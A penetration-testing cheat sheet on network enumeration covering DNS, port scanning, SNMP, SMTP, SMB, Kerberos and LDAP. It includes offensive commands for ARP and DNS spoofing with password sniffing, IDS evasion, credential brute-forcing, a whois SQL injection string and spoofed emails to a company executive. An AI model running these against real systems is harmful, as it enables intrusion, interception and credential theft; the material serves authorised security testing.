


# Network Enumeration

### DNS

#### Public IPS, CIDRs & ASNs

[Amass](https://github.com/OWASP/Amass) is backed by OWASP, which should provide prestige and confidence in the results. It is actively maintained and will likely be supported for a long time, meaning any future bugs will be resolved. Additionally, the adoption rate of Amass is high which potentially means better data consistency and integration with other tools

```bash
amass intel -addr 192.168.1.1-254 # Collect OSINT for the given IP Addresses
amass intel -asn 8911,50313,394161 # Collect OSINT for the given ASNs
amass intel -cidr 104.154.0.0/15 # Collect OSINT for the given CIDRs
```

- **intel**: Collect open source intelligence for investigation of the target organization

In the example below, we don't use OSINT but we use Google's DNS with a list in a "Brute-forcing way"

```bash
gobuster dns -d <domain> -t 8 -r 8.8.8.8 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```

#### Reverse DNS

DNRecon support DNSSEC and mDNS

```bash
dnsrecon -r *ip-address-range* -n *DNS*
```

- **-n**: Domain server to use.
- **-r**: IP range for reverse lookup brute force in formats (first-last) or in (range/bitmask).

#### Attempt a DNS Zone Transfer

DNS zone transfer, also known as AXFR, is a type of DNS transaction. It is a mechanism designed to replicate the databases containing the DNS data across a set of DNS servers.

```bash
dig @IP hostname -t axfr
```

*Note that Nmap has a NSE script for testing that vulnerability with --script=dns-zone-transfer*

#### Bind Version (If DNS Server)

```bash
dig @IP version.bind chaos txt
#                   Example                    #
#dig @192.168.1.1 version.bind txt chaos
#;; ANSWER SECTION:
#version.bind.       0   CH  TXT "dnsmasq-2.47"
```

#### (Side Note) Using Metaspoit

```bash
auxiliary/gather/dns_brutefore       # Perform a brute force dictionary DNS Scan
auxiliary/gather/dns_cache_scraper   # Queries DNS cache for previously resolved named
auxiliary/gather/dns_info            # Gathers general DNS information
auxiliary/gather/dns_reverse_lookup  # Perform a reverse DNS (PTR) scan of a netblock
auxiliary/gather/dns_srv_enum        # Enumerates SRV (Server) records
```

### ICMP - Host Discovery

A pingsweep is where we will ping every possible IP address within a given range to determine which ones send you a reply and are therefore considered up or live.

```bash
ping 127.0.0.1 -c 1 -W 1 # Send only a single ping and force a timeout after one second
```

### ICMP - OS Guessing (without Nmap)

```bash
xprobe2 IP # Not installed by default on Kali
ping IP
```

- TTL is inferior than 64 -> high chance that it's a UNIX system
- TTL is around 128 -> high chance that it's a Windows system
- TTL is around 255 -> high chance that it is a Network device or a Solaris system

### WHOIS

The WHOIS protocol provdes client/server access to information about internet domains and IPv4/IPv6 blocks

```bash
whois -h IP -p PORT DOMAIN # Get all the information that a whois service has about a domain
```

Note that WHOIS relies on databases to store information. SQLi maybe possible with the following

```bash
whois -h IP -p PORT "a') or 1=1#"
```

### Network Attacks

#### ARP Cache Poisoning

We can also use ARP cache poisoning for multiple purpose:

- Impersonate the default gateway and act as a web proxy to intercept all the traffic intended to Internet.


[arpspoof](https://linux.die.net/man/8/arpspoof) redirects packets from a target host (or all hosts) on the LAN intended for another host on the LAN by forging ARP replies. This is an extremely effective way of sniffing traffic on a switch.

```bash
# Perform arp spoofing on INTERFACE on target 192.168.0.1 
arpspoof -i INTERFACE -t 192.168.0.1 192.168.20.10
```

You could mix it with [dsniff](https://linux.die.net/man/8/dsniff) which is a password sniffer which handles FTP, Telnet, SMTP, HTTP, POP, poppass, NNTP, IMAP, SNMP, LDAP, Rlogin, RIP, OSPF, PPTP MS-CHAP, NFS, VRRP, YP/NIS, SOCKS, X11, CVS, IRC, AIM, ICQ, Napster, PostgreSQL, Meeting Maker, Citrix ICA, Symantec pcAnywhere, NAI Sniffer, Microsoft SMB, Oracle SQL*Net, Sybase and Microsoft SQL protocols.

Command options:

- **-c**: Perform half-duplex TCP stream reassembly (such as when using arpspoof to intercept client traffic bound for the local gateway)
- **-m**: Enable automatic protocol detection.
- **-i**: Specify the interface to listen on.

```bash
dsniff -c -m -i eth0
```

You could mix it with [fragrouter](https://linux.die.net/man/8/fragrouter) which is a network intrusion detection evasion toolkit.

Command options:

- **-i**: Specify the network interface
- **-g**: Specify the next-hop (default gateway)

```bash
fragrouter -i eth0 -B1
```

#### DNS Cache Poisoning

DNS cache poisoning is the act of entering false information into a DNS cache, so that DNS queries return an incorrect response and users are directed to the wrong websites.


Source: <https://www.imperva.com/learn/application-security/dns-spoofing/>

[dnsspoof](https://github.com/DanMcInerney/dnsspoof) can be used to drop DNS responses before they hit the router then replaces them with the spoofed DNS response.

```bash
# Spoof google.com to point back to the attack's machine.
dnsspoof -r 192.168.0.1 -v 192.168.0.5 -d google.com
# Spoof all DNS lookup requests to point to IP_X
dnsspoof -r 192.168.0.1 -v 192.168.0.5 -a -t IP_X
```

*Note that dnsspoof is 7 years old and may need to be run with Python 2*

For more information about that attack patern refer to [CAPEC-142: DNS Cache Poisoning](https://capec.mitre.org/data/definitions/142.html)
### Port Scan

#### Range

```bash
nmap -Pn -n -p 22,80,443,3389 -iL RANGE -oX hosts_4.xml
nmap -Pn -n --top-ports 20 -iL RANGE -oX hosts_20.xml
```

Then parse the output using [parsenmap](https://github.com/R3dy/parsenmap)

```bash
parsenmap services/full-sweep.xml
parsenmap services/full-sweep.xml > services/all-ports.csv
```

#### Single Host

```bash
nmap -p- -r oA nmap/allports -v IP # 1) Perform a scan on all ports with the verbose mode
cat nmap/allports.nmap | grep open | awk -F/ '{print $1}' ORS="," # 2) Get all opened ports separated by commas
nmap -sC -Pn -r -sV -oA nmap/specificports -p PORTS -v IP # 3) Run a Script scan on open ports
nmap -sY -Pn -r IP -v # Perform a SCTP scan
```

- **-p-**: Run on all ports (except port 0 within some version)
- **-oA**: Output
- **-sC**: Script Scan
- **-sV**: Probe open ports to determine service/version info
- **-p**: Run only on those ports (eg: )
- **-Pn**: Tells Nmap to skip the ping test and simply scan every target host provided.
- **-r**: Nmap randomizes the port scan order by default to make detection slightly harder.
- **-sY**: SCTP INIT/COOKIE-ECHO scans. SCTP sits alongside TCP and UDP. Intended to provide transport of telephony data over IP, the protocol duplicates many of the reliability features of Signaling System 7 (SS7), and underpins a larger protocol family known as SIGTRAN. SCTP is supported by operating systems including IBM AIX, Oracle Solaris, HP-UX, Linux, Cisco IOS, and VxWorks.

By default, Nmap scans the **1000** most popular ports of each protocol it is asked to scan.
You can specify the **-F** (fast) option to scan only the 100 most common ports in each protocol.
You can specify the **--top-ports N** to specify an arbitrary number of ports to scan.

If there are a lot of systems, you may need to use zenmap

#### Nmap IDS & IPS Evasion

- **TTL Manipulation**: --ttl *value*
 Send some packets with a TTL enough to arrive to the IDS/IPS but not enough to arrive to the final system. And then, send another packets with the same sequences as the other ones so the IPS/IDS will think that they are repetitions and won't check them, but indeed they are carrying the malicious content.
 *OS detection (-O) packets are not affected because accuracy there requires probe consistency, but most pinging and portscan packets support this.*
- **Avoiding signatures**: --data-length 25
Just add garbage data to the packets so the IPS/IDS signature is avoided.
- **Decoy Scal**: -D *decoy1[,decoy2][,your-own-ip]*
  Causes a decoy scan to be performed, which makes it appear to the remote host that the host(s) you specify as decoys are scanning the target network too. Thus their IDS might report 5–10 port scans from unique IP addresses
- **Fragmented Packets**: -f
  Some packet filters have trouble dealing with IP packet fragments due to the fact that:
  - Packet filters could reassemble the packets themselves, but that requires extra resources.
  - Fragments may take different paths, preventing reassembly.
  *Note that some source systems defragment outgoing packets in the kernel. Linux with the iptables connection tracking module is one such example. Do a scan while a sniffer such as Wireshark is running to ensure that sent packets are fragmented*
  *Features such as version detection and the Nmap Scripting Engine generally don't support fragmentation because they rely on your host's TCP stack to communicate with target services.*

If you see those following message, it means that for some packets, Nmap it is getting neither a udp nor icmp (destination unreachable) response from the host..
*Increasing send delay for 5.6.7.8 from 0 to 50 due to max_successful_tryno increase to 4*
*Increasing send delay for 5.6.7.8 from 50 to 100 due to max_successful_tryno increase to 5*
*Increasing send delay for 5.6.7.8 from 100 to 200 due to max_successful_tryno increase to 6*
*Increasing send delay for 5.6.7.8 from 200 to 400 due to 11 out of 11 dropped probes since last increase.*

By doing this, Nmap can differentiate between ports that are **blocked by firewalls** (no response regardless of sending interval) or **closed, but rate limited** (able to receive icmp destination unreachable response if the sending interval is sufficiently large).

#### Hping

> / / To Finish

[hping](https://github.com/antirez/hping) is a free packet generator and analyzer for the TCP/IP protocol.
It is one of the de facto tools for security auditing and testing of firewalls and networks, and was used to exploit the idle scan scanning technique (also invented by the hping author), and now implemented in the Nmap Security Scanner.

There is a new version which is hping3

<http://blog.tofte-it.dk/ethical-hacking-nmap-scruby-hping3/>

#### Through other paths

By using [CornerShot](https://github.com/zeronetworks/cornershot), the team can discover that host C actually has access to target X, so propagation towards target X should go through host C first.

```other
+-----+        +-----+          +-----+
|     |        |     | filtered |     |
|  A  +-------->  B  +----X--->(p) X  |
|     |        |     |          |     |
+-----+        +-----+          +-(p)-+
 source      carrier        target
   +                               ^
   |                               |
   |           +-----+             |
   |           |     |   open      |
   +---------->+  C  +-------------+
               |     |
               +-----+
```

By default it will scan for the following ports : 135, 445, 3389, 5985, 5986.
We can use **-tp** in order to be specify other ports

```bash
# Perform a scan of TARGET_IP through CARRIER_IP
python -m cornershot USERNAME PASSWORD DOMAIN CARRIER_IP TARGET_IP
```

#### Side Note: Packet Capture

There are some scenarios were we need to stay under the radar as much as possible and a big nmap can be very noisy.

One way is to perform traffic capture in order to see what's going on, on the network.

This can be done with tools like [tcpdump](https://www.tcpdump.org/manpages/tcpdump.1.html)

### HTTP & HTTPS

#### EyeWitness

[EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness) is designed to take screenshots of websites provide some server header info, and identify default credentials if known.

```bash
./EyeWitness -f urls.txt --web

nmap --open -p 80,443 IP_RANGE/24 -oX scan_web.xml
./EyeWitness -x urls.xml --timeout 10
```

*Note that it is not installed by default on Kali Linux*

#### httpscreenshot

[httpscreenshot](https://github.com/breenmachine/httpscreenshot) is a tool for grabbing screenshots and HTML of large numbers of websites.

Options are the following:

- **-p**: Use phantomjs instead of Mozilla Firefox (In order to go faster)
- **-i**: Takes a gnmap file as input.
- **-a**: Tries to SSL detect on its own.
- **-vH**: For each SSL enabled website, extract the hostnames from the CN and subject alt names field, and add them to the list of URL's to be screenshotted.
- **-t x**: Timeout in seconds.
- **-w x**: Number of threads to use.

There is a masshttp.sh which will do the following

1) Run masscan on port 80 & 443
2) Create a directory called "httpscreenshots"
3) Run httpscreenshot.py using -p -t 30 -w 50 -a -vH
4) Run httpscreenshot.py using -p -t 10 -w 10 -a -vH
5) Run screenshotClustering in order to have a nice HTML file with all finding

```bash
echo IP_RANGE >> networks.txt
masshttp.sh 
firefox clusters.html
```

### Automated Scan

#### Raccoon

[Raccoon](https://github.com/evyatarmeged/Raccoon) is tool used for reconnaissance and information gathering.
It perform multiple checks:

- DNS Enumeration: through [dnsdumper](https://github.com/nmmapper/dnsdumpster) which perform DNS reconnaissance to find host subdomains, DNS Records, Geo informations and emails addresses
- WHOIS Enumeration
- TLS Enumeration: through his own [engine](https://github.com/evyatarmeged/Raccoon/blob/master/raccoon_src/lib/tls.py)
- Network Port Scan: through Nmap (with service and scripts scan)
- WAF detection: through his own [engine](https://github.com/evyatarmeged/Raccoon/blob/master/raccoon_src/lib/waf.py)
- ...

```bash
raccoon --vulners-nmap-scan --no-sub-enum --no-url-fuzzing TARGET
```

I specify both **--no-sub-enum** and **--no-url-fuzzing** to not bruteforce subdomains and not fuzz URLs as it takes more times then to the scripts to run and it let a lot of noize.
I prefer to use raccoon for a quick additional scans.

### DNS Server

-> You can change your host file /etc/resolv.conf, this may reveal VHOST

### SSH

[ssh-audit](https://github.com/jtesta/ssh-audit) is a tool for ssh server & client configuration auditing.

### NFS

You can try to get more information about those shares using nmap

```bash
nmap -p PORT --script=nfs-ls IP # List NFS exports and check permissions
nmap -p PORT --script=nfs-showmount  IP # Like showmount -e
nmap -p PORT --script=nfs-statfs IP  # Disk statistics and info from NFS share
```

You can try to mount the NFS shares

```bash
showmount -e IP
```

### FTP Server

```bash
# Test for anonymous connection
ftp IP
Name: anomymous
Password:

ls # Displays all files
mget # Retreive all files
```

We can also use wget to retreive all files
Here below is an example when we have a user

```bash
wget --user USER --password PASSWORD -r ftp://IP
```

Last resort, if there is nothing else to start from

```bash
# Bruteforce
ncrack -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/seclists/Passwords/Common-Credentials/rockyou.txt ftp://IP
medusa -h IP -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/seclists/Passwords/Common-Credentials/rockyou.txt -M ftp
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/seclists/Passwords/Common-Credentials/rockyou.txt ftp://IP
```

### SNMP

There are multiple version of SNMP we may encounter:

|Version|Usage|Authentication|Encryption usage for Authentication|
|-|-|-|-|
|V1|Most Frequent|Bases on a **string** called **commmunity**|No (**plain-text**)|
|V2,V2C|Frequent|Bases on a **string** called **commmunity**|No (**plain-text**)|
|V3|Less Frequent|Bases **credentials**|Yes|

There are multiple tools to enumerate SNMP:

- [snmpcheck](https://linux.die.net/man/1/snmpcheck) is a *native* tool on Linux systems used to enumerate information via SNMP protocol.
- [snmpwalk](https://linux.die.net/man/1/snmpwalk)  is a *native* tool on Linux systems used to retrieve a subtree of management values using SNMP GETNEXT requests.
- [onesixtyone](https://github.com/trailofbits/onesixtyone) is a program that sends SNMP requests to multiple IP addresses, trying different community strings and waiting for a reply.

```bash
onesixtyone -c usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt IP # Bruteforce SNMP community strings
onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt IP # Bruteforce SNMP community strings

# Once we have the community
snmpcheck -t IP -c COMMUNITY -v X # Enumerate the SNMP community
snmpwalk -c COMMUNITY -v X # Enumerate the SNMP community
```

If it's SNMP v3, use the following [snmpv3enum](https://github.com/raesene/TestingScripts/blob/main/snmpv3enum.rb)

```bash
# Note that snmpv3enum requires snmp-mibs-downloader
snmpv3enum.rb -i IP -u /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt
```

#### Analyse the output

- **Devices**: grep ".1.3.6.1.2.1.1.1.0" *.snmp
- **Usernames/passwords**: grep -i "login\|fail" *.snmp
- **Emails Addresses**: grep -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b" *.snmp

For more information about that technique refer to [T1602.001 - Data from Configuration Repository: SNMP (MIB Dump)](https://attack.mitre.org/techniques/T1602/001/)

### RPC

Remote Procedure Call (RPC) is a request-response protocol that one program can use to request a service from a program located in another computer in a same network without having to understand the network’s details. It supports communication between Windows applications.

#### RPC (111)

The port mapper (rpc.portmap or just portmap, or rpcbind) is an Open Network Computing Remote Procedure Call (ONC RPC) service that runs on network nodes that provide other ONC RPC services.

```bash
rpcinfo IP           
nmap -sSUC -p111 IP  
```

*Note that nmap may display rpcbind while rpcinfo may display portmapper for the same program*

You may see:

- **portmapper**: The RPC portmapper is a server that converts RPC program numbers into TCP/IP (or UDP/IP) protocol port numbers.
- **ypbind**: This daemon binds, or connects, processes on a Network Information Services (NIS) client to services on an NIS server.
- **rusersd**: Is a server which returns information about users currently logged in to the system.

If there is [ypbind](https://linux.die.net/man/8/ypbind) running, you can try to exploit it.

When NIS is installed it's configured a "domain name", if you have it, you can use [ypwhich](https://linux.die.net/man/1/ypwhich) to ping the NIS server and [ypcat](https://linux.die.net/man/1/ypcat) to obtain sentivive information.

```bash
ypwhich -d example.org IP
ypcat –d example.org –h IP MAP
```

Here below are commion mapping that can be usefull

|Master file|Map(s)|Notes|
|-|-|-|
|/etc/hosts|hosts.byname, hosts.byaddr|Contains hostnames and IP details|
|/etc/passwd|passwd.byname, passwd.byuid|NIS user password file|
|/etc/group|group.byname, group.bygid|NIS group file|
|/usr/lib/aliases|mail.aliases|Details mail aliases|

###### *If you don't know, now you know: [NIShttps://en.wikipedia.org/wiki/Network_Information_Service)*

**Network Information Service (NIS)** is a client–server directory service protocol for distributing system configuration data such as user and host names between computers on a computer network.

There are a variety of security weaknesses in NIS that leave the environment susceptible to a multitude of attacks.
The first weakness in NIS focuses on configuration issues. Many default installations of NIS allow any user with an
NIS account access to any system in NIS,

The second major weakness is that NIS typically operates in a broadcast mode. The clients locate an NIS server
on their subnet by broadcasting to the broadcast address of said subnet. As a result, NIS can be subject to a
confidentiality attack resulting in unintentional information disclosure via a network sniffer such as tcpdump and
snoop.

The third major weakness in NIS deals with password restrictions. Traditional thinking states that if disclosure of the
password cannot be prevented, that the password must become more complex and thus more difficult to crack using
conventional password cracking utilities.

#### RPC (135)

Microsoft Remote Procedure Call, also known as a function call or a subroutine call, is a protocol that uses the client-server model in order to allow one program to request service from a program on another computer without having to understand the details of that computer's network.

You can query the RPC locator service and individual RPC endpoints to catalog interesting services running over TCP, UDP, HTTP, and SMB (via named pipes).


*Image From book "Network Security Assesment 3rd Edition"*

[rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) is a tool for executing client side MS-RPC functions

```bash
rpcclient -U "" IP # Try using an anonymous connection (also called NULL Session)
rpcclient -U UNSERNAME IP # (Require Password)
```

- enumdomusers: Enumerate domain users
  - RID (the suffix of their SID) in hexadecimal form
  - To get the users, use **cat users_from_enumdomusers.txt | awk -F\\[ '{print \$2\}' | awk -F\\] '{print \$1\}' > users.txt**
  - srvinfo: Server query info.
  - netshareenumall: Enumerate all shares
  - lookupsids: Resolve a list of SIDs to usernames.
      -> Lookup for SID that are S-1-5-21....-(500->501 & 1000+)

More Info: <https://www.sans.org/blog/plundering-windows-account-info-via-authenticated-smb-sessions/>

###### If you don't know, now you know: [SID](https://en.wikipedia.org/wiki/Security_Identifier)*

In the context of the Microsoft Windows NT line of operating systems, a **Security Identifier** (commonly abbreviated SID) is a unique, immutable identifier of a user, user group, or other security principal. A security principal has a single SID for life (in a given domain), and all properties of the principal, including its name, are associated with the SID.

Format:

*S - Revision Level - Identity Authority Value - Unique Identifier - Relative ID*
Note that any group or user that is not created by default will have a Relative ID of 1000 or greater

- Identity Authority Value

|Decimal|Name|DisplayNames|Notes|
|-|---------- | ----------- |--|
|0|Null Authority||e.g. "Nobody" (S-1-0-0)|
|1|World Authority||e.g. "Everyone" (S-1-1-0)|
|2|Local Authority|||
|5|NT Authority|NT AUTHORITY\||
|11|Microsoft Account Authority|MicrosoftAccount\||
|12|Azure Active Directory|AzureAD\||
|15|Capability SIDs|||

### SMTP

#### Basic Information

```bash
# Banner Grabbing
nc -vn <IP> 25
openssl s_client -crlf -connect smtp.mailgun.org:465
openssl s_client -starttls smtp -crlf -connect smtp.mailgun.org:587

# MX server(s)
dig +short mx victim.com

# Attempts to use EHLO and HELP to gather the Extended commands supported by an SMTP server.
nmap -pT:25,465,587 --script smtp-commands victim.com

# Try to extract information using NTLM
nmap -p 25,465,587 --script smtp-ntlm-info victim.com
```

#### Enumerate users (VRFY, EXPN and RCPT)

```bash
smtp-user-enum -U USERS_DICT -t IP
```

#### Send a fake mail to try to get information

[swaks](https://linux.die.net/man/1/swaks) is a *native* tool on Linux which stands for Swiss Army Knife SMTP
[sendEmail](https://github.com/mogaal/sendemail) is a lightweight, completly command line based, SMTP email agent.

```bash
swaks -to ciso@victim.com --from thomas@google.com --server SERVER_IP --header "Wanna Join Google ?"
sendEmail -t ciso@victim.com -f thomas@google.com -s SERVER_IP -u "Wanna Join Google ?"
```

sendMail options:

- **-f**: from (sender) email address
- **-t**: to email address(es)
- **-s**: smtp mail relay
- **-u**: message subject

Some usefull information about SMTP

The SMTP **HELO** clause is the stage of the SMTP protocol where a SMTP server introduce them selves to each other.
Clients learn a server's supported options by using the **EHLO** (Extended HELLO)
Within HELO, **HELP** supply helpful information.

**Delivery Status Notifications**: This has been setup in order to inform human beings of the status of message delivery processing, as well as the reasons for any delivery problems or outright failures, in a manner that is largely independent of human language and media

Note that smtp-user-enum (Python) is currently not by default on Kali. For installing it use the following command: /root/.local/bin/pip3.8 install smtp-user-enum

### Post Office Protocol

The POP clients generally connect, retrieve all messages, store them on the client system, and delete them from the server.

There are 3 versions of POP, but POP3 is the most used one.

You can use the command **CAPA** to obtain the capabilities of the POP3 server.

```bash
nmap --scripts=pop3-capabilities -sV -port PORT IP
nmap --scripts=pop3-ntlm-info -sV -port PORT IP
```

POP commands:

- **USER** uid: Log in as "uid"
- **PASS** password: Substitue "password" for your actual password
- **STAT**: List number of messages, total mailbox size
- **LIST**: List messages and sizes
- **RETR** n: Show message n
- **DELE** n: Mark message n for deletion
- **RSET**: Undo any changes
- **QUIT**: Logout (expunges messages if no RSET)
- **TOP** msg n: Show first n lines of message number msg
- **CAPA**: Get capabilities

### IMAP

1) Check if the server support NTLM Auth (Windows)

```bash
telnet example.com 143
nmap --scripts imap-ntlm-info -sV -port PORT IP
```

IMAP commands:

```bash
# Login
LOGIN "username" "password"

# List Folders/Mailboxes
LIST "" *
LIST INBOX *
LIST "Archive" *

# Create new Folder/Mailbox
CREATE INBOX.Archive.2012
CREATE "To Read"

# Delete Folder/Mailbox
DELETE INBOX.Archive.2012
DELETE "To Read"

# Rename Folder/Mailbox
RENAME "INBOX.One" "INBOX.Two"

# List Subscribed Mailboxes
LSUB "" *

# Status of Mailbox (There are more flags than the ones listed)
STATUS INBOX (MESSAGES UNSEEN RECENT)

# Select a mailbox
SELECT INBOX

# List messages
FETCH 1:* (FLAGS)
UID FETCH 1:* (FLAGS)

# Retrieve Message Content
FETCH 2 body[text]
FETCH 2 all
UID FETCH 102 (UID RFC822.SIZE BODY.PEEK[])

# Close Mailbox
CLOSE

# Logout
LOGOUT
```

### SMB

For that one, a bit more theory is required.

#### Concept: Netbios (Port 139)

NetBIOS is an acronym for Network Basic Input/Output System. It provides services related to the session layer of the OSI model allowing applications on separate computers to communicate over a local area network.

NetBIOS provides three distinct services:

- Name service (NetBIOS-NS) for name registration and resolution.
- Datagram distribution service (NetBIOS-DGM) for connectionless communication.
- Session service (NetBIOS-SSN) for connection-oriented communication.

On Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP.
On other systems, yo could find services and applications running with NetBIOS over TCP/IP.

#### Concept: Server Message Block

Server Message Block (SMB), one version of which was also known as Common Internet File System (CIFS), is a communication protocol for providing shared access to files, printers, and serial ports between nodes on a network.

#### Enumerating

Before starting, It may be possible that the system you try to enumerate is running an older version of SMB.
In that case, you may need to do the following

add "client min protocol = NT1" within the *[global]* section in */etc/samba/smb.conf*

Vulnerabilities:

- [CVE-2017-7494](https://github.com/opsxcq/exploit-CVE-2017-7494): Samba in 4.5.9 version and before that is vulnerable to a remote code execution vulnerability named SambaCry.

Tools:

- [smbclient](https://linux.die.net/man/1/smbclient) ftp-like client to access SMB/CIFS resources on servers.
- [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) is a tool for enumerating information from Windows and Samba systems.
- [nmblookup](https://www.samba.org/samba/docs/current/man-html/nmblookup.1.html) NetBIOS over TCP/IP client used to lookup NetBIOS names
- [ridenum](https://github.com/trustedsec/ridenum) is a RID cycling attack that attempts to enumerate user accounts through
null sessions and the SID to RID enum.

It's usually with **enum4linux** that I have the most information.

```bash
# Footprinting
smbclient -L //IP                              # Perform SMB Finger Printing (SMB Version)
nmap -sU --script nbstat.nse -p U:137,T:139 IP   # Attempts to retrieve the target's NetBIOS names and MAC address.
nmblookup -A IP                                  # Lookup by IP and do all simple enumeration
enum4linux -a IP                                 # Perform all simple enumeration

# Enumerate users
/opt/impacket/examples/lookupsid.py USER:PASSWORD@victim.com # Enumerate both local and domain users.

/opt/impacket/examples/reg.py ignite/Administrator:Ignite@987@192.168.1.105 query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```

You can try connect to a share by doing the following:

```bash
smbclient //IP/SHARE
```

smbclient and cme may behave differently as one is a "legit" tool and the other is a "pentesting" tool

```bash
cme smb IP --shares

# If you have a user
nmap -v -oA shares --script smb-enum-shares --script-args smbuser=USER,smbpass=PASSWORD -p445 IP
cme smb IP  -u USERNAME -p PASSWORD --shares
cme smb IP  -u USERNAME -p PASSWORD -M spider_plus # Requires CME 5.1
```

As show below, you may need to try differents times with different parameters to gets information



```bash
sudo mount -t cifs //IP//SHARE
sudo mount -t cifs -r 'user=USERNAME,password=PASSWORD //IP//SHARE /mnt/data
```

For more information about that technique refer to [T1021.002 - Remote Services: SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002/)

###### *If you don't know, now you know: (Windows Shares)[]*

- **DriveLetter\$**: This is a shared root partition or volume. Shared root partitions and volumes are displayed as the drive letter name appended with the dollar sign (\$). For example, when drive letters C and D are shared, they are displayed as C\$ and D\$.
- **ADMIN$**: This is a resource that is used during remote administration of a computer.
- **IPC\$**: This is a resource that shares the named pipes that you must have for communication between programs. This resource cannot be deleted.
The IPC\$ share is also known as a null session connection. By using this session, Windows lets anonymous users perform certain activities, such as enumerating the names of domain accounts and network shares. The IPC$ share is created by the Windows Server service.
- **NETLOGON**: This is a resource that is used on domain controllers.
- **SYSVOL**: This is a resource that is used on domain controllers.
- **PRINT$**: This is a resource that is used during the remote administration of printers.
- **profiles\$**:
- **FAX$**: This is a shared folder on a server that is used by fax clients during fax transmission.
  
Note NETLOGON and SYSVOL are not hidden shares. Instead, these are special administrative shares.

##### Kerberos

###### Bruteforcing

```bash
kerbrute usernum -d DOMAIN USERTXT # Enumerate valid domain usernames via Kerberos
# Make sure to test for unvalid username
cme smb IP --pass-pol # Get the password policy
```

By default, failures are not logged, but that can be changed with -v.
Kerbrute has a **--safe** option.

The **Account lockout threshold** policy setting determines the number of failed sign-in attempts that will cause a user account to be locked.
It is recommended to set it to 10 by Microsoft and CIS Benchmark
By default it's *"0 invalid sign-in attempts"*

The **Account lockout duration** policy setting determines the number of minutes that a locked-out account remains locked out before automatically becoming unlocked.

*Note that the local administrator account (UID 500) is typically safe to guess against because the default behavior for this account avoids being locked out due to multiple failed login attempts. This feature helps protect IT/system administrators from accidentally locking themselves out of a Windows machine.*

```bash
cme smb IP --local-auth -u Administrator -p rockyou.txt
```

### LDAP

The Lightweight Directory Access Protocol is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over an Internet Protocol (IP) network.

[ldapsearch](https://linux.die.net/man/1/ldapsearch) is a shell-accessible interface to perform LDAP queries.

```bash
ldapsearch -x -H LDAP_URI -s base namingcontexts # Get the actual domain
ldapsearch -x -H LDAP_URI -s sub -b 'DC=X,DC=local' #
# You can extract all users with the following command (require a user with a password)
ldapsearch -x -h <IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TDL>"
```

Options:

- **-x**: Use simple authentication instead of SASL.
- **-H**: Specify URI(s) referring to the ldap server(s).
- **-s**: Specify the scope of the search to be one of **base**, **one**, **sub**, or **children** to specify a base object, one-level, subtree, or children search.

[ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump) is an Active Directory information dumper via LDAP

```bash
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```

